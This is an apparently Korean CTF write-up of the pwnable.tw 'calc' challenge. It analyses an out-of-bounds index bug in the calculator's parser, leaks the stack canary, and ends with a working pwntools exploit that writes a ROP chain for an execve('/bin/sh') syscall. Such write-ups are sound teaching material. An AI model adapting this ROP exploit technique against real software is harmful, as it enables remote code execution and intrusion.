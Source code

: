 ```yaml
---
layout: post
title: "[pwnable.tw] calc 풀이"
date: 2018-06-08 04:44
categories: "[Pwn]pwnable.tw"
tags: rotles98
---
```

>## calc [150 pts]
### Have you ever use Microsoft calculator?
### `nc chall.pwnable.tw 10100`
### [calc](https://pwnable.tw/static/chall/calc)

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![file](/img/pwnable.tw/calc/01.png)
{: refdef}

32bit, 카나리, NX 으아아아

{: refdef: style="text-align: center;"}
![main](/img/pwnable.tw/calc/02.png)
{: refdef}

`calc` 으에에에

{: refdef: style="text-align: center;"}
![calc](/img/pwnable.tw/calc/03.png)
{: refdef}

구오오오

`get_expr`, `init_pool`, `parse_expr`안에 뭐 많고 그 안에도 또 뭐 있고 또 있고...

사실 분석하기 싫어서 쪼꼼만하다 아무 값이나 넣어봤어요.

- - -
# 0x01. 이상한거 찾기

{: refdef: style="text-align: center;"}
![get_expr](/img/pwnable.tw/calc/04.png)
{: refdef}

`+`, `-`, `*`, `/`, `%`, `0-9` 빼고는 들어가지도 않아서 적당히 넣어보면 뭐든 나오겠죠.

- 1024 딱 맞춰서 넣기

- 피연산자 지우기

- 짱 큰 값 만들기 (int형 범위 넘기기)

다 해봤는데 딱히 눈에 띄는건 없더라구요.

{: refdef: style="text-align: center;"}
![core dumped](/img/pwnable.tw/calc/05.png)
{: refdef}

아무 생각없이 넣어보다 이상한 걸 발견했어여 위 사진처럼 `+11111` 넣으니까 `core dumped`뜸!

{: refdef: style="text-align: center;"}
![SIGSEGV](/img/pwnable.tw/calc/06.png)
{: refdef}

`core`까보면 `mov eax, [ebp+eax*4+buf]`에서 터진걸 알 수 있어요.

레지스터는 이런 상태에요. `eax` = `0x2b66`, `ebp` = `0xffa945d8`

`eax`값이 뭔가 이상하지 않나요? 주소도 아니고 fd같은거도 아니고

일단 터진 부분이 c언어에서 아래 부분이에요.

```c
    if ( parse_expr(&arr, &head) )
    {
      printf(&d, buf[head - 1]);
      fflush(stdout);
    }
```

저기 `printf` 인자에서 터졌는데 `head-1`에 있는 값이 결괏값이네요!

그럼 `eax*4`는 `eax`가 index 역할을 하고 `*4`는 int형이라서 곱해주겠네요.

`0x2b66`는 10진수로 바꿔보면 **11110**입니다!

`+숫자`를 넣으면 `buf[숫자-1]`을 화면에 출력하는 거 같아요.

```c
  int head; // [esp+18h] [ebp-5A0h]
  int buf[100]; // [esp+1Ch] [ebp-59Ch]
  char arr; // [esp+1ACh] [ebp-40Ch]
  unsigned int canary; // [esp+5ACh] [ebp-Ch]
```

`canary`를 출력해서 테스트 해볼게요.

`buf`가 `ebp-0x59c`, `canary`가 `ebp-0xc`니까 둘 사이에 거리는 `0x590`네요.

10진수로 바꾸면 `1424`인데 나중에 `4`를 곱해주니까 지금 나누면 `356`이 돼요. 마지막으로 `-1`있어서 `357`이네요.

{: refdef: style="text-align: center;"}
![canary_leak](/img/pwnable.tw/calc/07.png)
{: refdef}

원하던대로 `ebp-0xc`의 값이 출력돼요.

- - -
# 0x02. 공격 방법

이 문제는 분석하면서 `bof`도 없고 힙 영역도 뭐 없었어요.

그런데 **0x01**에서 나온 값 역추적해보니까 계산과정 같은데서 특이한걸 발견했어요.

{: refdef: style="text-align: center;"}
![func_add](/img/pwnable.tw/calc/08.png)
{: refdef} 

`+357` 넣었을 때 계산하는 부분인데 `eax`값이 십진수로 `357`입니다! 그리고 계산 결괏값은 `0x166`이겠죠.

{: refdef: style="text-align: center;"}
![canary_leak](/img/pwnable.tw/calc/09.png)
{: refdef}

결괏값이 `0x166`으로 저장돼 있는데 그 옆에 `0x165`도 남아있는걸 볼 수 있어요.

아마 마지막으로 계산에 사용한 값은 저렇게 남는거 같은데 이걸 이용하면 int범위 내에서 특정 주소나 그런걸 넣을 수 있을거 같아요.

- - -
# 0x03. 페이로드 작성

`NX`가 걸려있어서 쉘 코드를 넣어 실행시키진 못하고 대신 `gadget`을 사용해서 `system("/bin/sh\0")`를 실행시킬 거에요.

```
AAAA = 0x41414141

xor_eax = 0x0808c980

pop_eax = 0x0805c34b
pop_edx = 0x080701aa
pop_ebx = 0x0807cb40
pop_ecx_ebx = 0x80701d1

eax_to_edx = 0x08090976

int_0x80 = 0x08049a21

_bin = 0x6e69622f
__sh = 0x0068732f

_bss = 0x080EE360

shell = [pop_edx, _bss, pop_eax, _bin, eax_to_edx, AAAA, pop_edx, _bss+4, pop_eax, __sh, eax_to_edx, AAAA, pop_edx, _bss+8, xor_eax, eax_to_edx, AAAA, pop_ecx_ebx, _bss+8, _bss, pop_eax, 0xb, pop_ebx, _bss, int_0x80]
```

뭔가 많아보이는데 생각보다 간단해요.

`pop_edx, _bss, pop_eax, _bin, eax_to_edx, AAAA, pop_edx, _bss+4, pop_eax, __sh, eax_to_edx, AAAA` : `bss`에 `/bin/sh`넣기

`pop_edx, _bss+8, xor_eax, eax_to_edx, AAAA` : `bss+8`에 `0x0` 넣기

`pop_ecx_ebx, _bss+8, _bss, pop_eax, 0xb, pop_ebx, _bss, int_0x80` : `ecx`에 `0x0`, `eax`에 `0xb`, `ebx`에 `bss` 넣고 `int 0x80`실행

- - -
# 0x04. 익스플로잇

왜 코드를 뒤에서부터 작성했냐면 제가 작성한 코드는 연산 결괏값이 아닌 연산에 사용된 값을 사용해서에요.

```python
from pwn import *
#context.log_level = "debug"

#HOST = "localhost"
HOST = "chall.pwnable.tw"
#PORT = 4444
PORT = 10100

s = remote(HOST, PORT)

elf = ELF("./calc")
#libc = ELF("./")
pause()

AAAA = 0x41414141

xor_eax = 0x0808c980

pop_eax = 0x0805c34b
pop_edx = 0x080701aa
pop_ebx = 0x0807cb40
pop_ecx_ebx = 0x80701d1

eax_to_edx = 0x08090976

int_0x80 = 0x08049a21

_bin = 0x6e69622f
__sh = 0x0068732f

_bss = 0x080EE360

shell = [pop_edx, _bss, pop_eax, _bin, eax_to_edx, AAAA, pop_edx, _bss+4, pop_eax, __sh, eax_to_edx, AAAA, pop_edx, _bss+8, xor_eax, eax_to_edx, AAAA, pop_ecx_ebx, _bss+8, _bss, pop_eax, 0xb, pop_ebx, _bss, int_0x80]

def insert(index, data):
	payload = "+" + str(index) + "+"
	payload += str(data)
	s.sendline(payload)
	s.recv()

for i in range(len(shell)):
	index = 360 + (len(shell) - i - 1)
	insert(index, shell[len(shell) - i - 1])

s.interactive()
```
